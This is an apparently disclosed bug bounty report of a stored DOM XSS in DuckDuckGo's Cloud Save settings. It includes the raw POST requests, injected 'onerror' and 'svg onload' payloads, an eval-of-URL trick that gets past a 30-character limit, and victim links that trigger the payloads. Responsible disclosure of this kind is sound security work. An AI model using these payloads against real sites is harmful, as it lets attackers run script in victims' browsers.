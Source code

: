 # DOM XSS on duckduckgo.com search

## Report Details
- **Report ID**: 921635
- **URL**: https://hackerone.com/reports/921635
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-07-12T18:07:27.265Z
- **Disclosed**: 2020-08-20T15:49:37.725Z

## Reporter
- **Username**: sijisu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: duckduckgo

## Vulnerability Information
Hey there,

there is a DOM XXS vulnerability on the https://duckduckgo.com/ search result page through the `kp` and `kae` parameters of the [Cloud Save](https://help.duckduckgo.com/duckduckgo-help-pages/settings/cloud-save/) feature.

POC URL: https://duckduckgo.com/?q=s&key=bb6e45e894d7b1f3a2619df967be873b15f8eccd55d3a729f58429b59f72431e4fd4b736a0ae5cf74933bcb5136103e1c09664972b3c489d1b682f08ce070325

Video (Firefox 78.0.1): 
{F904609}

Video (Chromium 83.0.4103.116): 
{F904637}

## How to reproduce?

First, we need to create malicious "Cloud Save" setting with our XSS payloads, an attacker would do that on their computer, we can do that with the following request to duckduckgo.com:

```
POST /settings.js HTTP/1.1
Host: duckduckgo.com
Content-Length: 248

{
"command":"write",
"objectKey":"bb6e45e894d7b1f3a2619df967be873b15f8eccd55d3a729f58429b59f72431e4fd4b736a0ae5cf74933bcb5136103e1c09664972b3c489d1b682f08ce0703ff",
"obj":{
"kp":"\"><img src=/ onerror=alert(1)>",
"kae":"\"><img src=/ onerror=alert(2)>"
}
}
```

Now we just need to visit duckduckgo.com with the key parameter set, an attacker would send this link to the victim, like this: https://duckduckgo.com/?q=a&key=bb6e45e894d7b1f3a2619df967be873b15f8eccd55d3a729f58429b59f72431e4fd4b736a0ae5cf74933bcb5136103e1c09664972b3c489d1b682f08ce0703ff. The Cloud Save key is now saved in the browser's Local Storage. Because the settings are downloaded from Cloud Save on every visit of the results page, our code will be executed every time as well. Try searching https://duckduckgo.com/?q=a, it even triggers on the settings page https://duckduckgo.com/settings and others.

## What about longer payloads?

You cannot have Cloud Save settings property longer than 30 characters. However, there are many tricks on how to bypass this limitation. For example one of many great @terjanq 's payloads does the trick here. It evals the URL so you can make your payload long enough to execute malicious code.

Request to set up Cloud Save:

```
POST /settings.js HTTP/1.1
Host: duckduckgo.com
Content-Length: 211

{
"command":"write",
"objectKey":"bb6e45e894d7b1f3a2619df967be873b15f8eccd55d3a729f58429b59f72431e4fd4b736a0ae5cf74933bcb5136103e1c09664972b3c489d1b682f08ce070324",
"obj":{
"kp":"\"><svg/onload=eval(`'`+URL)>"
}
}
```

And URL that executes the code: https://duckduckgo.com/?q=s&key=bb6e45e894d7b1f3a2619df967be873b15f8eccd55d3a729f58429b59f72431e4fd4b736a0ae5cf74933bcb5136103e1c09664972b3c489d1b682f08ce070324#';alert(document.domain);

Video:
{F904653}

## Impact

Attacker can execute JavaScript.

## Attachments
- firefox2-2020-07-12_19.04.05.mp4
- chromium2-2020-07-12_19.36.47.mp4
- firefox3-2020-07-12_19.59.04.mp4
